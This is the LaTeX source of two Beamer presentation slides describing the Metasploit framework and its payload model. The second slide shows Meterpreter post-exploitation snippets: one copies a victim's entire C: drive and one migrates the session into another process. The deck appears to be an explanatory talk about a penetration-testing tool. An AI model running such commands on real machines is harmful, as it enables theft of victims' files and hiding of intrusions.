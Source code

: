 \documentclass{beamer}
\newenvironment{sitemize}{\vspace{1mm}\begin{itemize}\itemsep 4pt\small}{\end{itemize}}
\begin{document}
\begin{frame}[t]
  \frametitle{Metasploit embedded}
  \begin{sitemize}
    \item Metasploit: A hacker tool framework
    \pause
    \item Tools built upon "framework-core" libraries
    \item Clear and documented SDK and interfaces
    \pause
    \item Similar 2.x interfaces written by us
    \item Automation tools written by you
  \end{sitemize}
\end{frame}


\begin{frame}[t, fragile]
  \frametitle{Payload model}
  \begin{sitemize}
    \item Payloads subscribe to unified API layers
    \item APIs emulate and extend the native Ruby APIs
    \item Port existing applications to be remote with no changes
    \item Great for scripting, great for testing
    \pause
    \item Better post-exploitation tools, more fun
    \begin{sitemize}
      \item Mirror victims harddrive:
\begin{verbatim}
client.fs.dir.download('./victim', 'c:\\', true)
\end{verbatim}
      \pause
      \item Migrate to a different process
\begin{verbatim}
pid = client.sys.process['calc.exe']
client.core.migrate(pid)
\end{verbatim}
      \pause
      \item Socket support, inefficent network pivoting
      \pause
      \item Support for Unix too, improved tools on their way
    \end{sitemize}
  \end{sitemize}
\end{frame}

\subsection{Other...}
\end{document}
